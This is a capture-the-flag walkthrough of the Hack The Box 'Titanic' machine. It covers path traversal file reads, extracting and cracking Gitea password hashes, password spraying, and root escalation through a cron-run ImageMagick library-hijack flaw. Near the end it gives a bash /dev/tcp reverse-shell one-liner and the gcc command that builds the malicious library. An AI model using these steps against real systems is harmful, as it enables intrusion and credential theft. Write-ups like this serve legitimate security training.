<table>
  <tr>
    <td></td>
    <td>
	    <b>Difficulty:</b> Easy<br>
        <b>Author:</b> <a href="https://app.hackthebox.com/users/1253217">ruycr4ft</a><br>
        <b>Date:</b> 20th August 2025
    </td>
  </tr>
</table>


----------------------------
<h2>Synopsis</h2>
Titanic is an Easy/Medium-rated Linux machine on Hack The Box that challenges players with <i>web exploitation</i>, <i>credential extraction</i>, and a <i>privilege escalation</i> via a known <u>ImageMagick vulnerability</u>.
The machine hosts a ticket-booking web application, where initial enumeration reveals a path traversal flaw that allows arbitrary file reads. This leads to the discovery of a secondary virtual host running a Gitea instance inside Docker. By extracting and cracking credentials from Gitea’s database, the attacker gains SSH access as a low-privileged user. Privilege escalation is achieved by exploiting a cron-executed ImageMagick process vulnerable to <a href="https://github.com/Dxsk/CVE-2024-41817-poc">CVE-2024-41817</a>, ultimately granting root access.

----------------------------


<h2>Nmap</h2>

- I started with an nmap scan to discover services:
Command:
```
sudo nmap -sC -sV <TARGET_IP>
```


Important finding:
	- HTTP on port 80 which redirects to [http://titanic.htb](http://titanic.htb/).

So, I added the hostname to <i>/etc/hosts</i>:



<br>

Now, let's check the service on port 80.

<h2>Apache</h2>


While exploring the app, I tried to make a request using `Book Your Trip`, along with Burp Suite, to see how the request looks.



The request tries to download a file, but for now I’m going to explore it further in Burp Suite’s Repeater.



<br>

Here, I send the request and then follow the redirection.





If it were just the UUID, we would probably start testing for SQL injection. But because it includes a file extension here (<i>.json</i>), this could be a file disclosure.

That’s why I’m going to try basic path traversal with a series of “../../” and then <i>/etc/passwd</i>.



And we have a file disclosure vulnerability.  
It’s a good idea to also take a look at the <i>/etc/hosts</i> file.



Here, we see there is a second host name: <i>dev.titanic.htb</i>.  
I’m going to add it to my hosts file.



Let's take a look at the new website.

<h2>Gitea</h2>


<table>
  <tr>
    <td></td>
    <td>
      If we click on “Explore,” we see <i>docker-config</i> and <i>flask-app</i>.<br>
  Looking at the Flask app, it appears to be the booking system application (the first web app we saw on port 80).<br>
  Therefore, I decided to run Gitea locally via Docker to see how & where it stores its configuration and database.
    </td>
  </tr>
</table>

<table>
  <tr>
    <td>
      1. Creating directory.
    </td>
    <td></td>
  </tr>
</table>


<table>
  <tr>
    <td>
      2. Crab the code.
    </td>
    <td></td>
  </tr>
</table>


<table>
  <tr>
    <td>
      3. Paste it.
    </td>
    <td></td>
  </tr>
</table>


4. Then we’re going to create this.





5. Now we do this and get a shell in our local setup.



<table>
  <tr>
    <td>
     6. Let’s explore the directory mentioned in the <u>code</u> of <i>docker-compose.yml</i>.
    </td>
    <td></td>
  </tr>
</table>


<table>
  <tr>
    <td>
      7. We find an <i>app.ini</i> file and the rest of the directory.<br>  
      Let’s check the actual <i>app.ini</i> using Burp.
    </td>
    <td></td>
  </tr>
</table>




We got it ✅

8. Looking through it, we can find the path to the database.



9. Checked the path and downloaded it using curl.



<br>


<table>
  <tr>
    <td>
      10. Finding Credentials.<br>
    </td>
    <td>
  </tr>
</table>




Gitea doesn’t store the hash in a single column; it’s split across multiple columns and encoded in Base64.  
So, we need to unhex it and convert it to Base64 to get it into Hashcat format.  
I decided to just search Google for “<u>gitea to hashcat</u>”, since I thought it would be easier and quicker to find a script that does this.



Here’s the code I’m going to work with:
<a href="https://raw.githubusercontent.com/unix-ninja/hashcat/faa680fbab803723d77449b7107c1c985a6b7981/tools/gitea2hashcat.py">raw code</a>



Looking at the code from GitHub, we can see that by typing this command, we can understand how to use what we just downloaded with <i>wget</i>:
```
python3 gitea2hashcat.py -h
```



Here’s how I got my hashes:



```
sqlite3 gitea.db 'select salt,passwd from user;' | python3 gitea2hashcat.py
```

<br>Now I’m going to save the output we just obtained and crack the hashes using Hashcat.



And we find some password here:



<br><h2>Password spraying to Login</h2>

<br>From the database, we can see the two users:



<br>Let’s save the names in a file and start spraying.



<br>

Great, let's dig in!

<br>

<br>

First flag - ✅!

<br><h2>Privilege Escalation</h2>

<br>Python applications are often found in the <i>/opt</i> directory.



The <i>/app</i> directory seems to contain the first app, which is about booking a trip.  
But if we go into <i>/scripts</i>, we find a file named `identify_images.sh`.



Let’s check the mentioned directory.



So, now we know that data is constantly running in <i>metadata.log</i>.



If we look at <u><i>xargs</i></u>, we see no arguments—there’s just this <b>magick</b> binary.  
I’m just going to execute it and check its version.



<br>Time to look for any vulnerabilities in this.



Here we can understand that we have path injection vulnerability:
[https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)



<br>Based on this, here’s how I’m going to try it:

1. After navigating to <i>/dev/shm</i>, paste the following to create the `delegates.xml` file:

```
cat << EOF > ./delegates.xml
<delegatemap><delegate xmlns="" decode="XML" command="id"/></delegatemap>
EOF
```



<br>
( In this screenshot, I already ran the command — but just to show the file exists, I used <i>cat</i>.)
<br>
2. Doing this gives us code execution:


```
/usr/bin.magick identify delegates.xml
```

<br>
3. Let’s move this, since it needs to be a .jpg file.



<br>
4. Creating a program



<br>

Now we have this library: <i>libxcb.so.1</i>  
If <b>magick</b> is run while this library is in the current working directory, it indicates that this will lead to <u>code execution</u>.

Time to test it out:



<br>5. Modifying the shell




```
"bash -c 'bash -i >& /dev/tcp/<YOUR IP>/<YOUR PORT> 0>&1'"
```

- Remember to use <u>your VPN IP</u> from the HTB connection.
- Also choose a free port to use.

<br>Then run the gcc command again to compile it:



```
gcc -x c -shared -fPIC -o ./libxcb.so.1 <SCRIPT_FILENAME>
```

<br>We need to place it in this directory:

```
/opt/app/static/assets/images/
```



<br>

<b>After running it with a simple command like `date`, within the next 30 seconds the script will be executed.</b>

<b>5.1</b> It will change into the `/opt/app/static/assets/images` directory.  
<b>5.2</b> It will erase `metadata.log`.  
<b>5.3</b> Then it will run this:

```
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

<b>Because the file we just copied</b>, `libxcb.so.1`, exists in the directory where we placed it ( `/opt/app/static/assets/images`), when <b>magick</b> loads (through a command like `date`), it will load this library.  
That will send us a shell, if we’re listening...

<br>

<br><b>**Tips</b>:

- <u>Start your listener before</u> triggering <b>magick</b> with `date`.
<br>
- <b>Wait the full 30 seconds</b> ( I thought I had made a mistake at first).

<br>

And we got the second flag — ✅!
